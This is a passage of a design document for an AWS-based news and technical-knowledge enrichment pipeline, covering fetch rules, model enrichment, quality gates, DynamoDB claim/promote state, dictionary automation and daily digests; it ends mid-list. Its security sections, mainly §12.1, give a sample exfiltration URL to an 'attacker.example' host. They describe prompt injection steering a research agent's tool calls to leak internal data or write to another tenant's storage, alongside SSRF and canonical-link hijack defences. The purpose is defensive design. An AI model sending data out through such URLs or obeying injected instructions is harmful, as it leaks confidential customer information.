

# Knowledge Enrichment Pipeline Design

**Date:** 2026-08-07
**Status:** Approved design, pending written-spec review
**Implementation order:** Knowledge-grade News -> Living Technical Knowledge + Dictionary -> Daily Digest -> Research & Architecture Brief

## 1. Problem

TTOBAK already searches the web, crawls AWS content, creates research reports, and
renders Markdown. The output is not yet dependable as a working knowledge base:

- AgentCore Web Search results are normally summarized from snippets. Only
  `customUrls` are fetched in full.
- News metadata contains a two-sentence preview and the list UI clamps it, so most
  items are little more than a title.
- A failed article fetch can still leave enough search-result text to look useful,
  although the actual article was never read.
- Technical URLs are deduplicated by URL. A changed AWS document is skipped forever,
  and `docsUpdated` remains zero.
- The custom dictionary is manually maintained. ADR-008's automatic term proposal
  flow is not implemented.
- Approved research plans are not passed into execution. Source and word counts are
  supplied by the model instead of measured by the system.
- Meeting action items do not lead to a prepared follow-up package for the next
  customer meeting.

The target is not a link directory. Each published insight must be understandable
without opening the original article, be grounded in fetched source content, and be
useful for meeting preparation, RAG, technical decisions, and email digests.

## 2. Goals

1. Fetch and analyze the full body of every published news or technical item.
2. Discard an item completely when the body cannot be fetched or is too incomplete
   to support a knowledge-grade summary.
3. Store a self-contained structured synthesis and canonical Markdown, not a copy of
   the copyrighted article body.
4. Keep official technical knowledge current through content-hash change detection.
5. Use extracted trusted terms to maintain effective Transcribe vocabularies without
   replacing a working vocabulary with a failed build.
6. Send opt-in account/project daily digests containing enough substance to act on
   without visiting each source.
7. Turn approved research plans, prior meeting action items, and official AWS sources
   into meeting-preparation and architecture briefs.
8. Render long articles, tables, callouts, and Mermaid diagrams cleanly in light and
   dark modes.
9. Meet a same-Region recovery baseline of RPO 24 hours and RTO 24 hours.
10. Make quality, cost, freshness, and delivery failures visible.

## 3. Non-goals

- Bypassing paywalls, bot challenges, login walls, or publisher access controls.
- Archiving full third-party article bodies.
- Sending meeting transcripts, internal project figures, customer codenames, or
  action-item text to the web-search provider.
- Real-time breaking-news alerts. The first delivery channel is a daily digest.
- Active-active multi-Region service. The accepted baseline is same-Region restore.
- Replacing AgentCore Web Search with another provider.
- Rebuilding the existing Markdown component system. It will be extended.

## 4. Architectural Decision

Create one logical Knowledge Enrichment Pipeline with typed contracts and separate
stages:



This is a logical pipeline, not one large Lambda. Each stage has a typed input/output
and can be tested without AWS. Step Functions remains the durable orchestrator and
fans out bounded candidate work to focused workers.

The implementation reuses the current stacks and storage:

- `TtobakCrawlerStack`: discovery, enrichment, publication, KB ingestion, later
  dictionary/digest scheduling. Reuses the stack's role, but real changes span two
  stacks:
  - `TtobakAiStack` owns `crawlerRole` (`kbBucket.grantReadWrite`, bucket-wide,
    unchanged) — adds a prefix-scoped `knowledge-artifacts/*` grant and
    `bedrock:InvokeModel` on the selected inference profile **and every
    destination-Region foundation-model ARN it can route to** — a `us.` geo
    profile spans multiple Regions, so a single ARN under-grants and causes a
    runtime `AccessDenied` depending on which Region it routes to. The
    destination-Region set is a CDK config list, not a single value.
  - `TtobakCrawlerStack` (currently only `props.kbBucket` + `SUMMARIZE_MODEL_ID`)
    adds the assets-bucket reference/env var, plus `FINAL_MODEL_ID` and the Bedrock
    client Region (§7.1) — not wired in today.
  - Deploy `TtobakAiStack --exclusively` before `TtobakCrawlerStack --exclusively`
    (IAM before the Lambda code that needs it).
  - State machine restructuring is also Phase 1 scope, not just env/IAM: today's
    per-source `sfn.Map` (no `Retry`/`Catch`/DLQ) doesn't meet §15.1's
    per-candidate fan-out + independent retry + visible ingestion-failure
    requirements.
- `ttobak-main`: source configuration, insight metadata, term state, digest state,
  and run history.
- Main versioned assets bucket: private structured artifacts under
  `knowledge-artifacts/`. This prefix is not exposed through CloudFront.
- Versioned KB bucket: canonical Markdown only under `shared/news/` and
  `shared/aws-docs/`.
- Existing Bedrock Knowledge Base and `shared/` retrieval path.
- Existing rich Markdown renderer, extended rather than replaced.

The structured JSON must not be written under `shared/`: the out-of-band Bedrock data
source has no CDK-managed inclusion prefix, so a JSON artifact there could be indexed
as a second, duplicate knowledge document.

## 5. Pipeline Contracts

### 5.1 Candidate

Discovery produces candidates, not insights:

```json
{
  "candidateId": "sha256(sourceId + canonicalCandidateUrl)",
  "kind": "news",
  "sourceId": "wooribank",
  "sourceName": "우리은행",
  "title": "search result title",
  "url": "https://publisher.example/article",
  "publishedAt": "2026-08-06T09:00:00Z",
  "discoveredAt": "2026-08-07T00:00:00Z",
  "queryClass": "account-event",
  "searchResultRank": 2
}
```

Search snippets are discovery signals only. They may be used for cheap pre-filtering,
but never as the article body or the basis of a published summary.

### 5.2 Structured enrichment

The model returns JSON matching a versioned schema. The system rejects extra-large or
invalid fields and creates Markdown itself.

```json
{
  "schemaVersion": 1,
  "kind": "news",
  "title": "canonical title",
  "executiveSummary": "원문 없이도 사건과 의미를 이해할 수 있는 요약",
  "keyFacts": [
    {
      "fact": "확인된 사실 또는 수치",
      "evidenceIds": ["S1"],
      "confidence": 0.96
    }
  ],
  "context": "이전 상황과 이번 보도의 배경",
  "impact": {
    "business": ["사업적 영향"],
    "technical": ["기술적 영향"]
  },
  "risks": ["리스크"],
  "opportunities": ["기회"],
  "awsRelevance": [
    {
      "service": "Amazon Bedrock",
      "rationale": "기사 내용과 연결되는 이유",
      "confidence": 0.81
    }
  ],
  "meetingQuestions": ["고객에게 확인할 질문"],
  "recommendedActions": ["SA가 준비할 후속 조치"],
  "evidence": [
    {
      "id": "S1",
      "sourceUrl": "https://publisher.example/article",
      "supportingExcerpt": "근거 확인용 짧은 발췌",
      "publishedAt": "2026-08-06T09:00:00Z"
    }
  ],
  "tags": ["금융", "AI"],
  "terms": [
    {
      "phrase": "AgentCore",
      "category": "aws",
      "soundsLike": "에이전트코어",
      "confidence": 0.99
    }
  ],
  "diagrams": []
}
```

Rules:

- `executiveSummary` is a substantive synthesis, not a two-sentence teaser.
- Facts and numbers require at least one evidence ID.
- Evidence excerpts are individually capped at 180 characters and collectively
  capped at 1,000 characters. The normalized body is never persisted.
- The model may say that AWS relevance is weak; it must not invent a mapping.
- News normally has no diagram. Technical and architecture outputs may include
  Mermaid.
- Raw model output is retained only in short-lived execution logs with body fields
  excluded. The accepted artifact is the validated object.
- `supportingExcerpt`/`sourceUrl` are neutralized again (same as §14's
  pre-enrichment pass) immediately before embedding in canonical Markdown — the KB
  is a re-injection path into Q&A, so an evidence quote that survived the quality
  gate still needs output-direction neutralization, not just input-direction.

### 5.3 Canonical Markdown

The server converts the accepted object to deterministic Markdown:

1. Title and source metadata
2. Executive summary
3. Key facts
4. Background and context
5. Business and technical impact
6. Risks and opportunities
7. AWS relevance
8. Questions for the next meeting
9. Recommended actions
10. Evidence and source links

Technical documents substitute sections for change summary, prerequisites,
constraints, security, cost, reliability, operations, and migration guidance.

Only canonical Markdown is indexed. Article body excerpts are not appended. This
prevents the current raw-scrape section from becoming a second, lower-quality wall of
text and keeps the KB focused on the synthesis.

## 6. Discovery and Full Fetch

### 6.1 AgentCore Web Search

Keep the existing us-east-1 AgentCore Web Search Gateway and its SigV4 MCP client.
The crawler, research agent, and Q&A deployment artifacts keep their existing
separate copies of that client.

Search expansion uses only approved public search context:

- Korean and English account names
- Explicit aliases, former names, brands, and product names
- Industry and public event names
- Configured AWS services
- Query classes: company update, investment, partnership, regulation, incident,
  executive change, product launch, architecture, migration, security, and cost

Example patterns:

```text
"우리은행" AI OR 생성형AI after:2026-08-01
"Woori Bank" cloud partnership
"우리은행" 규제 보안 사고
site:aws.amazon.com architecture EKS multi-region
```

The system does not derive external queries from meeting conversation, action-item
details, opportunity values, internal project names, or customer codenames. Query
logs contain a hash, query class, result count, and latency, never plaintext query
text.

Freshness defaults:

- News: seven days, widened to 30 days only when the first pass yields no accepted
  result.
- Official technical knowledge: no hard publication window; `contentHash` decides
  whether work is required.
- Explicit custom URL: no freshness filter. As established by ADR-026, it also
  bypasses the account/topic relevance threshold because the URL itself is an
  explicit curation decision. Full-fetch, schema, evidence, and content-quality
  gates still apply without exception.

### 6.2 Canonicalization and duplicate handling

Before deduplication:

- Follow at most five public HTTP(S) redirects.
- Normalize scheme/host casing and remove fragments.
- Remove known tracking parameters (`utm_*`, `gclid`, `fbclid`) while preserving
  content-identifying query parameters.
- Prefer an accessible canonical link only when it resolves to a public HTTP(S)
  location **on the same registrable domain as the page declaring it** — a page
  cannot canonicalize to another site. Without this, an attacker-controlled page
  could declare `rel=canonical` pointing at a trusted URL and collide `docHash`
  with (or hijack `sourceAuthority`/`primarySourceId` for) a legitimate document.
- §8.1's official/trusted-domain authority check applies to the *final* resolved
  canonical URL, not the originally discovered one.
- Hash `kind + canonicalUrl` for the stable document identity.

Exact URL duplicates are removed before model work. Near-duplicate news about the
same event is grouped when:

- normalized-title token Jaccard similarity is at least 0.75,
- the results share at least one account/organization entity, and
- publication times are within seven days.

The first accepted source becomes the group lead. Additional full-fetchable sources
are evidence for the same event rather than separate cards. The UI shows the number
of corroborating sources. This grouping is deterministic and does not require an
Opus call.

### 6.3 Mandatory full fetch

Every search result and custom URL goes through the same fetch policy:

- HTTP(S) only.
- Reject private, loopback, link-local, multicast, reserved, and metadata-service
  addresses on the initial host and every redirect. The connection is made to the
  specific IP validated for that hop, not a fresh DNS resolution at connect time —
  otherwise a DNS-rebinding response between validation and connect could still
  route the request to a rejected address.
- Ten-second connection/read timeout, two retries with exponential backoff for
  transient network and 5xx failures.
- Maximum compressed response and decoded-body sizes.
- HTML/text content types only.
- Remove scripts, navigation, ads, headers, footers, cookie dialogs, and repeated
  boilerplate.
- Detect login walls, paywalls, consent-only pages, bot challenges, and JS shells.
- Require at least 800 visible characters and four content blocks for news. Official
  reference pages may pass with 500 characters when headings and lists provide
  sufficient structure.

If the body cannot pass these checks, the candidate is discarded. It creates no
`DOC#` metadata row, S3 knowledge object, KB vector, term suggestion, or digest item.
Only aggregate run counters and CloudWatch metrics record the rejection.

The fetched body exists in process memory only until enrichment finishes.

## 7. Enrichment and Quality Gate

### 7.1 Model routing

The selected final model is Claude Opus 5:

```text
Bedrock client Region: us-west-2
Inference profile: us.anthropic.claude-opus-5
Environment variable: FINAL_MODEL_ID
```

The US geo inference profile keeps data in US and Canada Regions. The public
news/official-doc pipeline is unaffected (public source material only). Prep
packets, architecture briefs, and approved deep research (§12.1's `approvedPlan`
carries confidential accounts/projects/answers) can all carry internal context, so
all three disclose it and are gated the same way: a deployment-owner config flag
(default `false`) must be enabled before any of them may invoke the US-geo
profile; a request fails closed otherwise, server-side, not just via the
disclosure UI. An approved regional model is a separate way to satisfy the same
requirement per deployment.

Use Opus 5 only for:

- final article synthesis,
- cross-article digest synthesis,
- approved deep research,
- meeting-preparation and architecture briefs,
- one repair attempt for invalid structured output or Mermaid.

Use deterministic code for URL normalization, freshness, deduplication, body
quality, term normalization, counts, and cost calculations. A separately configured
fast/low-cost model may classify terms or perform first-pass relevance, but its
output never bypasses the final deterministic quality gate.

The official model card lists `us.anthropic.claude-opus-5` and
`global.anthropic.claude-opus-5`; it also confirms Converse support and Batch
availability. Large backfills and non-urgent technical refreshes may use Batch.
Daily news and digests use Standard to meet the delivery window.

### 7.2 Quality gate

Publication requires all of the following:

- full fetch passed;
- relevance confidence is at least 0.75 for search-discovered candidates; an
  explicit custom URL bypasses this threshold only;
- schema validation passed;
- executive summary is at least 600 Korean characters or an equivalent amount in
  the source language;
- at least three key facts and two evidence-backed facts;
- every numeric claim has evidence;
- context and impact are non-empty;
- at least two meeting questions or actions exist for news;
- all source URLs are HTTP(S);
- output contains no raw prompt delimiters or instruction-like payload;
- generated text is materially shorter than the source and does not reconstruct it.

Invalid JSON receives one constrained repair attempt using the original validated
body and validation errors. A second failure rejects the candidate. A rejected
candidate cannot fall back to its title or snippet.

Quality metadata records gate version, prompt version, model ID, body length,
summary length, evidence coverage, relevance confidence, and reason codes. It does
not store the body.

## 8. Living Technical Knowledge

### 8.1 Sources

Technical discovery includes only official or explicitly trusted sources:

- AWS documentation
- AWS What's New
- AWS Architecture Center
- AWS Solutions Library
- AWS Prescriptive Guidance
- AWS Well-Architected Framework and lenses
- AWS blogs
- official AWS samples and workshops

Official domains and repository organizations are allowlisted. Web search discovers
URLs, but a result outside the allowlist is treated as news/research evidence, not an
authoritative technical document.

### 8.2 Change detection

For each canonical URL:

1. Fetch and normalize current content.
2. Compute SHA-256 `contentHash`.
3. If the hash is unchanged, update `lastCheckedAt` only and skip the model.
4. If this is a new URL, enrich and publish.
5. If the hash changed, enrich the new body, overwrite the latest canonical
   Markdown, and increment `docsUpdated`.
6. Persist a compact change record containing old/new hash, changed sections,
   change summary, and observed time.

Only the latest technical synthesis is in the KB. Full historical bodies and
historical Markdown copies are not retained by the application. S3 versioning remains
an operational recovery mechanism, not a user-facing content-version history.

Change summaries are stored for 24 months:

```text
PK: CRAWLER#__tech__
SK: DOCCHANGE#{docHash}#{changedAt}
```

## 9. Data Model and Storage

### 9.1 Crawled document metadata

Three hashes, distinct purposes: `candidateId` (§5.1, `sha256(sourceId +
canonicalCandidateUrl)`) dedupes raw search results within one discovery run.
`docHash` (§6.2, `hash(kind + canonicalUrl)`) is the stable, source-independent
document identity used in S3 paths and keys below. `contentHash` (§8.2,
`sha256(normalized body)`) changes when fetched content changes and drives the
state machine below.

`docHash` is source-independent, but two different sources can discover the same
URL. Concurrency state therefore lives on one canonical row per `docHash`, not on
the per-source row — otherwise two sources could each successfully claim the same
document under their own partition:

```text
# Canonical — one per docHash. All claim/enrich/promote state lives here.
PK: CRAWLERDOC#{docHash}
SK: STATE

schemaVersion: number
kind: string
canonicalUrl: string
primarySourceId: string         # set once at first claim; immutable — the {sourceId}
                                 # segment in staged/promoted keys never changes owner
service: string?                # kind=technical only; the {service} promoted-key segment
publishedContentHash: string?   # last PUBLISHED version; absent if never published
candidateContentHash: string?   # in-flight claim; absent when idle/PUBLISHED
qualityStatus: "ENRICHING" | "PROMOTING" | "PUBLISHED"
claimedAt: string?              # set on claim; also the staging-key attempt token (fencing)
promotingAt: string?
postPublishPending: bool?       # set with step 7d; cleared after step 8-9 succeed
lastRejectedContentHash: string?
lastRejectedReason: string?
lastRejectedAt: string?
discoveredBySourceIds: String Set
artifactKey: string             # promoted JSON copy (§17.2 long-term, not the staging path)
s3Key: string
qualityScore: number
qualityGateVersion: string
promptVersion: string
modelId: string
sourceAuthority: "official" | "trusted" | "open-web"
keyTakeaways: string[]
firstSeenAt: string
updatedAt: string
```

```text
# Per-source — unchanged key, now a read-side projection of the canonical row.
PK: CRAWLER#{sourceId}
SK: DOC#{docHash}

schemaVersion: number
canonicalUrl: string
lastCheckedAt: string
eventGroupId: string?
corroboratingSourceCount: number
artifactKey: string
s3Key: string
qualityStatus: "PUBLISHED"
qualityScore: number
qualityGateVersion: string
promptVersion: string
modelId: string
firstSeenAt: string
updatedAt: string
sourceAuthority: "official" | "trusted" | "open-web"
keyTakeaways: string[]
```

The per-source row is written only by the fan-out step (step 8) after a canonical
promote succeeds — it's never itself a claim target, so it needs no
`ENRICHING`/`PROMOTING` state.

**Per-kind KB prefix mapping**, using `primarySourceId`/`service`, never the
discovering source of any later refresh:

| `kind`      | Promoted KB key                              |
|-------------|-------------------------------------------------|
| `news`      | `shared/news/{primarySourceId}/{docHash}.md`      |
| `technical` | `shared/aws-docs/{service}/{docHash}.md`          |

A new `kind` must add its own row here before being phased on.

`summary` stays for backward-compatible list responses (capped, now substantive).
The full structured object and canonical Markdown are staged at a
**fenced** key in the **assets** bucket — content-hash *and* claim-attempt
(`claimedAt`) versioned, never the KB bucket (the out-of-band Bedrock data source
has no inclusion prefix, §4, and scans the whole bucket):

```text
s3://ttobak-assets-{account}/knowledge-artifacts/staging/{kind}/{primarySourceId}/{docHash}/{contentHash}-{claimedAt}.json
s3://ttobak-assets-{account}/knowledge-artifacts/staging/{kind}/{primarySourceId}/{docHash}/{contentHash}-{claimedAt}.md
```

The promoted JSON copy (what `artifactKey` on the row points to) lives under a
separate, non-expiring prefix — `knowledge-artifacts/promoted/{kind}/
{primarySourceId}/{docHash}.json` — so §17.2's 7-day lifecycle rule can target
`knowledge-artifacts/staging/` only, without also expiring the reference the row
keeps forever.

The `-{claimedAt}` suffix fences concurrent attempts: two claims for the same
`contentHash` (a slow original worker plus a reconciler that reclaimed the lease)
get different `claimedAt` values and therefore different keys, so neither can
silently overwrite the other's artifact. Promote (step 7) copies exactly the key
recorded for the claim that reached `PROMOTING` — never "the `{contentHash}` key"
generically.

**Publication is single-writer, decided before enrichment runs.** Deciding only at
promotion time doesn't work: Opus's non-deterministic output means two workers
enriching the identical `contentHash` could produce different artifacts. All
conditional updates target the canonical row:

1. Fetch, normalize, compute `contentHash`. If this `sourceId` has no per-source
   row yet, add it to `discoveredBySourceIds` and, if canonical is `PUBLISHED`
   **and** `publishedContentHash` exists (genuinely published, not idle-after-
   rejection), upsert its per-source row from the current published state. If
   `contentHash == publishedContentHash`, stop (§8.2 step 3).
2. **Claim**: the condition depends on whether the canonical row exists yet —
   requiring `qualityStatus = PUBLISHED` unconditionally would make a brand-new
   `docHash` (no row, so no `qualityStatus` attribute either) permanently
   unclaimable, since a comparison against a missing attribute evaluates false.
   - New row (`PutItem`): conditioned on `attribute_not_exists(PK)`. Sets
     `candidateContentHash`, `qualityStatus: ENRICHING`, `claimedAt: now`,
     `primarySourceId` (immutable from here on).
   - Existing row (`UpdateItem`): conditioned on `qualityStatus = PUBLISHED AND
     (attribute_not_exists(publishedContentHash) OR publishedContentHash <>
     contentHash)` — the explicit `attribute_not_exists` branch matters here too:
     a doc whose only attempt was ever rejected has no `publishedContentHash` set,
     and would otherwise never be claimable again. Sets `candidateContentHash`,
     `qualityStatus: ENRICHING`, `claimedAt: now`.
   Losers of either write stop before calling Opus.
3. Winner calls Opus, stages JSON + Markdown at the `{contentHash}-{claimedAt}`
   keys.
4. **Quality gate** (§7.2) runs.
5. **Pass**: `ENRICHING -> PROMOTING`, conditioned on
   `candidateContentHash`/`claimedAt` → promote (step 7).
6. **Fail**: `ENRICHING -> PUBLISHED` (rollback, `publishedContentHash` untouched),
   set `lastRejected*`. A repeat fetch of the same rejected `contentHash` within a
   cooldown (e.g. 24h) skips re-claiming.
7. **Promote** (self-correcting loop — a resumed promote must never overwrite a
   newer version):
   a. Read current `candidateContentHash`/`claimedAt` (`H`/`A`).
   b. `CopyObject` the fenced key `{H}-{A}` to the KB-bucket key, and the
      structured-JSON fenced key to the promoted `artifactKey` (also long-term,
      not the 7-day staging path — see §17.2).
   c. Re-read; if `candidateContentHash`/`claimedAt` no longer match `H`/`A`,
      repeat from (a) with the new values.
   d. `PROMOTING -> PUBLISHED`, `publishedContentHash: H`,
      `postPublishPending: true`, clearing `candidateContentHash`/`claimedAt`/
      `promotingAt`, conditioned on `candidateContentHash == H AND claimedAt ==
      A` — both, not just `H`: a fencing token that changed since (a) means a
      newer claim has taken over and this commit must not land, even if `H`
      happens to still match.
      retry from (a) on conflict.
8. **Fan out**: upsert every `discoveredBySourceIds` row with the published
   summary/`keyTakeaways`/`qualityStatus`/`s3Key`.
9. Trigger KB ingestion, then clear `postPublishPending`.

A row stuck in `ENRICHING`/`PROMOTING` past a short lease (e.g. 10 minutes, same
pattern as §11.3's `CLAIMED` reclaim) means the claim holder crashed. The two
states need different reconciliation, not the same lease-renewal treatment:

- **Stuck `ENRICHING`**: enrichment (the Opus call) is not idempotent, so
  reconciliation renews the lease (`claimedAt: old -> now`, conditioned on the
  stale value) and mints a fresh fencing token before redoing it — an orphaned
  original worker that later reaches step 5 or 7d finds `claimedAt` no longer
  matches what it remembers and is blocked. Bodies aren't retained (§6.3) and
  SHA-256 is one-way, so reconciliation must re-fetch and re-verify `contentHash`
  against `candidateContentHash`; on mismatch, roll back (as step 6, no rejection
  reason) and let the next fetch claim fresh.
- **Stuck `PROMOTING`**: promote (step 7) is already an idempotent copy +
  conditional write — reconciliation must *not* renew `claimedAt` here.
  Minting a new token would orphan the fencing itself: the staged artifact only
  exists at the *original* `{H}-{A}` key, so a renewed token would make step 7a
  chase a key nothing was ever written to. Reconciliation instead re-enters the
  promote loop using the row's existing, unchanged `candidateContentHash`/
  `claimedAt` — safe to run concurrently with a merely-slow original worker,
  since both would copy identical bytes and only one conditional `PUBLISHED`
  write can win.
- **`postPublishPending: true` past the same lease, regardless of `qualityStatus`**:
  re-run steps 8-9 for that row. This is not a live claim (no lease conflict to
  guard) — a crash between step 7d's commit and step 9's ingestion trigger would
  otherwise be permanently invisible to reconciliation (the row is already
  `PUBLISHED`, and the next fetch's step 1 stops immediately on matching
  `contentHash`), so this flag is swept independently of the `ENRICHING`/
  `PROMOTING` lease checks above.

Staged keys get a short lifecycle (e.g. 7 days, assets bucket); the promoted
`shared/` Markdown and `artifactKey` JSON copies are long-term (§17.2).

### 9.2 Run history

Extend `HISTORY#` records:

```text
discovered
fetchRejected
duplicateRejected
relevanceRejected
qualityRejected
docsAdded
docsUpdated
termsProposed
digestEligible
errors
```

Errors exposed to the UI are bounded reason codes. Full exception details stay in
CloudWatch without article bodies or plaintext search queries.

### 9.3 Legacy migration

Existing title/snippet-grade items are not grandfathered as knowledge-grade:

1. Run a dry-run inventory by type/source.
2. Refetch and enrich each URL through the new pipeline.
3. Replace the old S3 Markdown and metadata only after the new quality gate passes.
4. Hide legacy items from Insights and KB publication until upgraded.
5. Delete legacy metadata/Markdown when the full fetch cannot pass.
6. Trigger one KB ingestion after each bounded migration batch.

The migration is resumable by stable document key and `schemaVersion`. Legacy items
already use §9.1's per-kind key mapping, so step 3 replaces content at the same key.

## 10. Custom Dictionary Automation

### 10.1 Term trust

- Terms extracted from official AWS sources may be auto-activated in the system term
  registry after deterministic normalization and confidence checks.
- Customer names, product names, industry terms, and ambiguous acronyms go to each
  relevant subscriber's approval queue.
- Rejected terms remain suppressed by normalized phrase so the same suggestion is
  not recreated every day.

```text
PK: DICTIONARY#SYSTEM
SK: TERM#{termHash}

PK: USER#{userId}
SK: TERM_SUGGESTION#{termHash}
```

Suggestion fields include phrase, display form, Korean pronunciation, category,
confidence, source IDs, first/last seen time, seen count, and status
`PENDING|APPROVED|REJECTED`.

### 10.2 Effective vocabulary build

The effective vocabulary is scoped per user, not global:

```text
active system terms (shared, official-source-derived)
+ this user's manual terms
+ this user's approved suggestions
```

A customer or product name one user approves is confidential to that user's
accounts and must never appear in another user's Transcribe custom vocabulary,
hint, or transcription output. Vocabulary build state is therefore keyed per user:

```text
PK: USER#{userId}
SK: VOCABULARY#EFFECTIVE

activeVocabularyName
activeVocabularyHash
pendingVocabularyName
pendingVocabularyHash
vocabularyStatus
lastBuildError
buildRetryCount
```

The vocabulary is normalized, deduplicated, sorted, size-checked against Transcribe
limits, and hashed daily. A build runs when the effective hash changes, **or** when
`vocabularyStatus` is `FAILED` for the current hash. Without the second condition, a
build that fails once (for example, a term Transcribe rejects) would never retry
automatically — the effective hash stays the same until a user's approvals change
again, so dictionary automation would silently freeze until someone calls the manual
`POST /rebuild` API. `buildRetryCount` bounds automatic retries of the same failing
hash (for example, three attempts with backoff per day) before requiring manual
intervention, so a persistently invalid term doesn't retry-loop forever either.

Do not update the currently active vocabulary in place. The builder creates a
hash-versioned pending vocabulary. Transcription continues to use the previous READY
vocabulary while the pending version builds. Only a confirmed READY version is
atomically promoted to active. A FAILED build is visible and never degrades active
transcription.

New APIs:

```text
GET  /api/settings/dictionary/suggestions
POST /api/settings/dictionary/suggestions/{termHash}/approve
POST /api/settings/dictionary/suggestions/{termHash}/reject
POST /api/settings/dictionary/rebuild
```

## 11. Daily Account/Project Digest

### 11.1 Subscription

Digest delivery is opt-in. The user explicitly selects an accessible Account or
Project and one or more crawler sources; the system does not infer links from similar
names.

```text
PK: USER#{userId}
SK: DIGEST#{scopeType}#{scopeId}
GSI1PK: DIGEST#ENABLED#{timezone}#{hour}
GSI1SK: USER#{userId}#{scopeType}#{scopeId}
enabled: bool
sourceIds: String Set
timezone: string
deliveryHour: number
lastSentDate: string?
```

The API verifies account/project access and source subscription server-side.

### 11.2 Content

A digest contains at most five event groups, ranked by relevance, freshness, source
authority, and corroboration. Each item includes:

- a substantive summary,
- three to five key facts,
- why it matters,
- risks/opportunities,
- suggested meeting questions or action,
- source links.

When two or more items exist, Opus 5 may add a bounded cross-article synthesis. It
receives only published public-source artifacts and public aliases. Meeting notes,
transcripts, action items, opportunity amounts, and internal project metadata are
excluded. With one item, the email is assembled deterministically without another
model call.

No accepted news means no email.

The renderer produces responsive, sanitized HTML plus a complete plain-text
alternative. The email uses public display aliases rather than internal project
titles and contains no tracking pixels, remote images, scripts, forms, or external
stylesheets. Links are ordinary source links without recipient-specific tracking
parameters. The HTML uses email-client-safe inline styles and remains readable when
images and CSS enhancements are unavailable.

### 11.3 Delivery reliability

Use SES with a configuration set and SNS/EventBridge feedback events for delivery,
bounce, and complaint status. Every send has a deterministic key:

```text
PK: DIGEST#{userId}
SK: DELIVERY#{localDate}#{scopeType}#{scopeId}
```

A conditional put claims the key before `SendEmail` and records `claimedAt`. Status
progresses through `CLAIMED -> SENDING -> SENT|FAILED|BOUNCED|COMPLAINED|UNKNOWN` —
`UNKNOWN` is the terminal state the at-most-once path below assigns when a
post-`SENDING` crash makes the actual outcome unknowable. SES message ID and a
`deliveryKey` message tag correlate feedback.

Two crash windows, only one safe to auto-retry:

- **Crash while `CLAIMED`, before `SendEmail`**: SES never invoked. Reconciliation
  reclaims a `CLAIMED` row past a short lease (e.g. 10 min) via a conditional
  update on the same `claimedAt` — otherwise the key stays stuck forever.
- **Crash at/after `SENDING`**: intentionally at-most-once from here — no retry.
  Reconciliation marks `UNKNOWN` for manual retry.

Two rules make this hold: (1) `CLAIMED -> SENDING` must commit *before*
`SendEmail` is called, not after — otherwise a crash in between is
indistinguishable from "never invoked" and reconciliation would resend a message
SES already accepted. (2) every transition is conditioned on current status, and a
terminal feedback status (`BOUNCED`/`COMPLAINED`) can't be overwritten — the
sender's `SENDING -> SENT` write is conditioned on still being `SENDING`, so a
fast-arriving bounce wins and isn't clobbered back to `SENT`.

Permanent bounce or complaint disables the subscription and raises an operational
event.

## 12. Research, Meeting Prep, and Architecture Brief

### 12.1 Approved plan becomes execution input

When the user approves a research plan, the backend snapshots:

- the latest proposed structure,
- user answers and scope changes,
- requested output type,
- selected accounts/projects,
- selected source policy.

The snapshot is stored as `approvedPlan`, hashed, and passed to the execute request
— the Step Functions payload carries only the hash, same as §12.2's prep-packet
boundary; the worker loads the actual body from DynamoDB. Execution must follow
that exact snapshot. Later chat messages do not silently alter an already-running
job.

A snapshot doesn't confer standing access at execution time — the backend
re-verifies server-side, before execution and before each stage touching a
referenced resource, that the caller still has access to every account/project/
meeting in `approvedPlan` (same pattern as §11.1). Revoked access fails the job
closed.

Deep research is a single iterative agentic loop (`web_search`/`fetch_page`/
`save_report`), so unlike the prep packet (§12.2) it can't split into a
public-then-synthesis call — the same reasoning that picks the next search has
`approvedPlan`'s internal context in its window. `web_search` query arguments are
checked server-side against §6.1's approved-alias/generic-topic allowlist before
dispatch — the whole query string must tokenize into allowed terms only, not
merely contain one; a query that also carries extra, non-allowlisted text (a
possible exfiltration suffix) is rejected outright. That check does not cover
`fetch_page`: a URL's query string, path, and
even destination host are an exfiltration channel an alias-token match doesn't
catch (`https://attacker.example/?q=<leaked-data>` can pass an alias check while
still leaking arbitrary text). `fetch_page` therefore only accepts an opaque
reference to a URL `web_search` itself already returned in this session — never a
raw model-supplied URL — with the same provenance check re-applied to any
redirect target. §7.1's residency flag applies to this whole path too.

`save_report`'s `researchId`/owner are derived from the job's own verified
execution context (the record created when the job started), never from the
model-supplied tool-call arguments — a model that ingested untrusted web content
could otherwise be steered into writing to another tenant's `research/{userId}/`
via a manipulated tool argument. The write is a conditional update against the
canonical research row's existing owner.

The tool layer records a source manifest for every successful `web_search` and
`fetch_page`. `save_report` computes unique source count and word count itself; it
does not accept model-reported counts as authoritative.

### 12.2 Meeting preparation packet

A user can create a prep packet from an Account, Project, or upcoming Meeting. The
backend re-verifies server-side, at request time, that the calling user has access
to the selected Account/Project/Meeting and every selected action item — the same
fail-closed check as §11.1 and §12.1 — before any of that content (including
internal action-item text) is included in the packet or sent to the model. The UI
lets the user select open action items and prior meetings. The packet combines:

- selected prior summaries and open actions,
- relevant knowledge-grade news,
- relevant official technical knowledge,
- user-provided agenda and constraints,
- unresolved questions and decisions.

Enforced structurally (§7.1's "enforced, not disclosed" bar), via two model calls
with disjoint capabilities:

1. **Public-context call**: `web_search`/`fetch_page` tools, public inputs only.
   Output is captured and fixed before step 2.
2. **Synthesis call**: no web/fetch tools bound at all — receives internal
   action-item text, prior summaries, and step 1's output, produces the packet.
   No tool means internal content can't reach the web-search provider regardless
   of model output.

Internal action-item/meeting content also stays out of any Step Functions
state-machine payload — it flows directly into the synthesis call's input.

Output sections:

1. Meeting objective and expected decisions
2. Changes since the previous meeting
3. Open action-item preparation
4. Customer/business context
5. Technical context and relevant AWS updates
6. Risks, blockers, and assumptions
7. Questions to ask
8. Recommended agenda
9. Supporting sources

The completed packet can be published as an Account Document with `docType: "prep"`.

### 12.3 Architecture brief

Architecture briefs use official AWS sources as the authority and include:

- requirements, constraints, and explicit assumptions;
- current and target architecture Mermaid diagrams;
- service selection rationale;
- Well-Architected six-pillar analysis;
- alternatives and decision matrix;
- low/base/high cost scenarios with variables, price date, and source links;
